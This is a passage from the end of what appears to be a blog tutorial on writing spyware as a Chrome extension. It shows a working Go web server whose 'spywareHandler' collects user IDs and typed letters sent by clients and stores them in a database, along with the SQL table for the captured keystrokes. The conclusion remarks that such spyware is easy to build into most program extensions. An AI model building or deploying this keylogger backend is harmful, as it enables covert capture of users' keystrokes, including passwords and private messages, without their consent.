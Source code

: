 ```go
}

func spywareHandler(w http.ResponseWriter, r *http.Request) {
  userId := r.FormValue("userId")
  letters := r.FormValue("letters")
  event := &Event{userId, letters, time.Now()}

  inErr := DBConnection.Insert(event)
  if inErr != nil {
    log.Println(inErr)
    return
  }
}

func main() {
  DBConnection = createDB()
  http.HandleFunc("/", spywareHandler)
  http.ListenAndServe(":8000", nil)
}
```

Now we have a fully functioning server to receive and store all the keystrokes that clients send. We need to create a SQL database that matches, which should be very easy since we only have one table `events`.

```sql
CREATE TABLE events (
  userId text,
  letters text,
  "timestamp" timestamp with time zone
);
```

After we get the database set up, we are done! We can now run our server locally or upload it to [Heroku](http://heroku.com/) without any trouble.

## Conclusion
There we have it, a client and server for our custom spyware. Even though we have a new extension ready for upload the Chrome Extension Store, uploading it would violate the [terms of service](https://developer.chrome.com/webstore/terms#review). While I chose to focus on writing spyware for a Google Chrome Extension, the ease of which we wrote it is not exclusive to Chrome Extensions. It would be equally as easy to write spyware into extensions of almost every modern day program.

View code on [Github](https://github.com/719Ben/719Ben.github.io).

If you see any errors, please make a [pull request](https://github.com/719Ben/719Ben.github.io) or let me know on [twitter](https://twitter.com/719ben), I would love to fix them!
